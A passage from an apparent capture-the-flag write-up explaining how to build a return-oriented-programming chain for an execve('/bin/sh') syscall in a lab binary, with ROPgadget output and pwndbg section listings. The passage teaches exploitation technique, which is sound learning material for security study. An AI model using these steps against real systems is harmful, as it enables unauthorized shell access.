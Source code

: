 #### rax - 59

Luckily for us, ROPgadget was able to find a `pop rax` gadget:

```shell
$ ROPgadget --binary inspect-your-gadgets --only "mov|pop|ret" --re "rax"
# --snip--
0x0000000000484dba : pop rax ; pop rdx ; pop rbx ; ret
0x0000000000452477 : pop rax ; ret # <---- this is the one we want
0x000000000041e024 : pop rax ; ret 0xffff
0x0000000000476397 : pop rbp ; mov rax, r12 ; pop r12 ; pop r13 ; ret
# --snip--
```

This means that we can load the value 59 directly into the `rax` register without too much effort.
We just have to put the value 59 (packed to 8 bytes because this is a 64-bit binary) on the stack after the address to this gadget.

#### rdi - pointer to "/bin/sh"

This was probably the most difficult register to set up since we can't just load the string "/bin/sh" directly into rdi; it has to contain an address pointing to the string.
Luckily the `mov` instruction can deal with pointers by adding square brackets around a register name (e.g. `[rdi]`) to dereference the address stored inside it.
There's also different pointer sizes (?) that are available, which are represented by adding `byte ptr`, `dword ptr`, and `qword ptr` before the register in square brackets if that makes sense.
In our case we'd want a `mov qword ptr [rdi], ...` gadget since a `qword` is 8 bytes and there's going to be an 8-byte address stored in `rdi` (again, we have a 64-bit binary).

Initially we were going to try to use one that moved from the `r9` register, but we couldn't find any `pop r9` gadgets that ended in a `ret` instruction.
We eventually found one that moved from `rcx` instead, as well as an accompanying `pop rcx ; ret` gadget.

With all of that though, we still have to load an address that we can write to into `rdi`.
There is a `pop rdi ; ret` gadget that lets us load anything we want into it, but finding an address is more interesting.
We eventually settled on writing into the .bss section of the binary, which normally holds uninitialized static variables.
gdb (well, pwndbg) is nice enough to give us the locations of the different sections within our binary:

```shell
pwndbg> elf
0x400270 - 0x400290  .note.gnu.property
0x400290 - 0x4002b4  .note.gnu.build-id
0x4002b4 - 0x4002d4  .note.ABI-tag
0x4002d8 - 0x400518  .rela.plt
0x401000 - 0x40101b  .init
0x401020 - 0x4011a0  .plt
0x4011a0 - 0x4939b0  .text
0x4939b0 - 0x495644  __libc_freeres_fn
0x495644 - 0x495651  .fini
0x496000 - 0x4b22ec  .rodata
0x4b22ec - 0x4b22ed  .stapsdt.base
0x4b22f0 - 0x4bcb7c  .eh_frame
0x4bcb7c - 0x4bcc95  .gcc_except_table
0x4be0c0 - 0x4be0e0  .tdata
0x4be0e0 - 0x4be0f0  .init_array
0x4be0e0 - 0x4be120  .tbss
0x4be0f0 - 0x4be100  .fini_array
0x4be100 - 0x4c0ef4  .data.rel.ro
0x4c0ef8 - 0x4c0fe8  .got
0x4c1000 - 0x4c10d8  .got.plt
0x4c10e0 - 0x4c2b10  .data
0x4c2b10 - 0x4c2b58  __libc_subfreeres
0x4c2b60 - 0x4c3208  __libc_IO_vtables
```